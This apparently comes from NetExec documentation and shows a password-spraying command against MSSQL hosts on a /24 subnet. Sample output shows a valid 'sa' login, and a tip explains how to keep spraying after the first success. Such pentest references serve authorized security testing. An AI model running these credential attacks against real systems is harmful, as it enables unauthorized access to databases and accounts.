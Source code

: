 # Password spraying

#### Password spraying (without bruteforce)

```bash
nxc mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```bash
MSSQL       10.10.10.59     1433   None             [-] ERROR(TALLY): Line 1: Login failed for user 'test1'.
MSSQL       10.10.10.59     1433   None             [+] sa:password (Pwn3d!)
```

{% hint style="info" %}
By default, nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.
{% endhint %}
